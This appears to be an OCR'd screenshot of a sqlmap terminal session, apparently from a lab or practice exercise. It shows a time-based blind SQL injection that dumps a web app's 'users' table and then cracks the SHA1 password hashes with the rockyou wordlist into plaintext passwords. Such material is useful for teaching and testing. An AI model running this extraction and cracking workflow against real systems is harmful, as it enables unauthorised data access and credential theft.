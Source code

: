 ```shell
---
[22:27:57] [INFO] the back-end DBMS is MySQL
[22:27:57] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] 
web server operating system: Linux Debian
web application technology: Apache 2.4.65, PHP
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[22:28:09] [INFO] fetching columns for table 'users' in database 'myapp'
[22:28:09] [INFO] retrieved: 
[22:28:19] [INFO] adjusting time delay to 1 second due to good response times
3
[22:28:20] [INFO] retrieved: id
[22:28:27] [INFO] retrieved: username
[22:28:50] [INFO] retrieved: password_hash
[22:29:39] [INFO] fetching entries for table 'users' in database 'myapp'
[22:29:39] [INFO] fetching number of entries for table 'users' in database 'myapp'
[22:29:39] [INFO] retrieved: 2
[22:29:41] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                                           
1
[22:29:44] [INFO] retrieved: d2982588f016f8dfd57a3fc4ac071cc013a8666a
[22:32:25] [INFO] retrieved: admin
[22:32:40] [INFO] retrieved: 2
[22:32:43] [INFO] retrieved: 51abb9636078defbf888d8457a7c76f85c8f114c
[22:35:01] [INFO] retrieved: test
[22:35:16] [INFO] recognized possible password hashes in column 'password_hash'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[22:35:29] [INFO] writing hashes to a temporary file '/tmp/sqlmapastxdnbo7991/sqlmaphashes-ufwqcam4.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] y
[22:35:33] [INFO] using hash method 'sha1_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 2
what's the custom dictionary's location?
> /home/kali/rockyou.txt
[22:35:42] [INFO] using custom dictionary
do you want to use common password suffixes? (slow!) [y/N] 

[22:35:45] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[22:35:45] [INFO] starting 8 processes 
[22:35:46] [INFO] cracked password 'Princess25' for user 'admin'                                                                                                                                                  
[22:36:36] [INFO] cracked password 'testtest' for user 'test'                                                                                                                                                  
Database: myapp                                                                                                                                                                                                   
Table: users
[2 entries]
+----+----------+-------------------------------------------------------+
| id | username | password_hash                                         |
+----+----------+-------------------------------------------------------+
| 1  | admin    | d2982588f016f8dfd57a3fc4ac071cc013a8666a (Princess25) |
| 2  | test     | 51abb9636078defbf888d8457a7c76f85c8f114c (testtest)   |
```